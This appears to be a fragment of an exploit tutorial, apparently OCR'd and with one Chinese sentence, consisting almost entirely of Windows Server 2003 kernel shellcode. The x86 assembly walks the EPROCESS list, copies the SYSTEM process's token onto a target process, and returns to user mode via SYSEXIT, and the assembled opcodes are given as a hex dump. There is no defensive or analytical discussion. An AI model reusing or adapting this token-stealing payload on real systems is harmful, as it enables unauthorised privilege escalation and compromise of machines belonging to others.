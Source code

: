 ```
mov eax, fs:[WIN2K3_KTHREAD_OFFSET]   ; EAX <- current _KTHREAD
mov eax, [eax+WIN2K3_EPROCESS_OFFSET] ; EAX <- current _KPROCESS == _EPROCESS
push eax


mov ebx, WIN2K3_SYS_PID

SearchProcessPidSystem:

mov eax, [eax+WIN2K3_FLINK_OFFSET]    ; EAX <- _EPROCESS.ActiveProcessLinks.Flink
sub eax, WIN2K3_FLINK_OFFSET          ; EAX <- _EPROCESS of the next process
cmp [eax+WIN2K3_PID_OFFSET], ebx      ; UniqueProcessId == SYSTEM PID ?
jne SearchProcessPidSystem            ; if no, retry with the next process...

mov edi, [eax+WIN2K3_TOKEN_OFFSET]    ; EDI <- Token of process with SYSTEM PID
and edi, 0fffffff8h                   ; Must be aligned by 8

pop eax                               ; EAX <- current _EPROCESS 


mov ebx, 41414141h

SearchProcessPidToEscalate:

mov eax, [eax+WIN2K3_FLINK_OFFSET]    ; EAX <- _EPROCESS.ActiveProcessLinks.Flink
sub eax, WIN2K3_FLINK_OFFSET          ; EAX <- _EPROCESS of the next process
cmp [eax+WIN2K3_PID_OFFSET], ebx      ; UniqueProcessId == PID of the process 
                                      ; to escalate ?
jne SearchProcessPidToEscalate        ; if no, retry with the next process...

SwapTokens:

mov [eax+WIN2K3_TOKEN_OFFSET], edi    ; We replace the token of the process 
                                      ; to escalate by the token of the process
                                      ; with SYSTEM PID

PartyIsOver:

popad                                 ; restore registers
mov edx, 11111111h                    ; EIP value after SYSEXIT
mov ecx, 22222222h                    ; ESP value after SYSEXIT
mov eax, 3Bh                          ; FS value in userland (points to _TEB)
db 8Eh, 0E0h                          ; mov fs, ax
db 0Fh, 35h                           ; SYSEXIT

end shellcode
我们用MASM汇编这段汇编代码并索引操作码的对应序列（Tools > Load Binary File as Hex）我们得到:
00000200 :60 64 A1 24 01 00 00 8B - 40 38 50 BB 04 00 00 00
00000210 :8B 80 98 00 00 00 2D 98 - 00 00 00 39 98 94 00 00
00000220 :00 75 ED 8B B8 D8 00 00 - 00 83 E7 F8 58 BB 41 41
00000230 :41 41 8B 80 98 00 00 00 - 2D 98 00 00 00 39 98 94
00000240 :00 00 00 75 ED 89 B8 D8 - 00 00 00 61 BA 11 11 11
00000250 :11 B9 22 22 22 22 B8 3B - 00 00 00 8E E0 0F 35 00

```
